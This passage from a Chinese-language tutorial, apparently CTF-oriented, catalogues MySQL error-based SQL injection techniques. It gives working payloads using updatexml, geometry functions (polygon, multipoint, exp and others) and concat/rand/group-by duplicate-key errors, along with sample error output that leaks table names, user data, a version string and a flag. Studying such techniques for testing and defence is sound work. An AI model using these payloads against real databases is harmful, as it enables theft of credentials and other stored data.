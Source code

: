 ```sql
username=admin’or(updatexml(1,concat(0x7e,(select(right(password,25))from(H4rDsq1)),0x7e),1))%23&password=1
```
以上说的基本都是查询的时候进行报错注入，有的时候报错注入存在与update、insert语句中

Insert报错注入：
```sql
INSERT INTO users (id, username, password) VALUES (2,'jack' or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or '', 'hahahaahah');
INSERT INTO security.user (id, uname, passwd,email) VALUES (211,1=updatexml(0,concat(0x7e,(SELECT concat_ws(':',id, uname, passwd) FROM security.user as x limit 0,1)),0) or '', 'ohmygod_is_r00tgrok','sssssss');
```
```SQL
SELECT * from users where id =1 and updatexml(1,make_set(3,'~',(select flag from flag)),1)
[Err] 1105 - XPATH syntax error: '~,flag{abdg678899nsn-dhsns98dj-d'
```
## **2.2 利用几何函数报错**
mysql有些几何函数，例如geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()，这些函数对参数要求是形如(1 2,3 3,2 2 1)这样几何数据，如果不满足要求，则会报错
```sql
1. geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
2. multipoint()
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
3. polygon()
select * from test where id=1 and Polygon((select * from(select * from(select user())a)b));
4. multipolygon()
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
5. linestring()
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
6. multilinestring()
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
7. exp()
select * from test where id=1 and exp(~(select * from(select user())a));
```
这些报错注入函数对数据库的版本有要求，高版本的数据库并不能成功
 
其中Polygon(ls1, ls2, ...) 一个非常好玩的函数，如果传参不是linestring的话，就会爆错，而当如果我们传入的是存在的字段的话，就会爆出已知库、表、列。
```sql
SELECT * FROM users where id = 1 - Polygon(id)
---------------------------------------------------------------------------------------------
[SQL]SELECT * FROM users where id = 1 - Polygon(id)
[Err] 1367 - Illegal non geometric '`awd_bank`.`users`.`id`' value found during parsing
```
## **2.3 concat+rand()+group_by()导致主键重复**
```sql
select count(*) from users group by concat(version(),floor(rand(0)*2));
[SQL]select count(*) from users group by concat(version(),floor(rand(0)*2));
[Err] 1062 - Duplicate entry '5.7.261' for key '<group_key>'

select count(*),concat(table_name,floor(rand(0)*2))x from information_schema.tables group by x;
[SQL]select count(*),concat(table_name,floor(rand(0)*2))x from information_schema.tables group by x;
[Err] 1062 - Duplicate entry 'global_variables0' for key '<group_key>'
```
## **2.4 重复列名报错**
使用列名重复来进行报错注入
name_const报错型注入
```sql
name_const函数要求参数必须是常量，所以实际使用上还没找到什么比较好的利用方式
```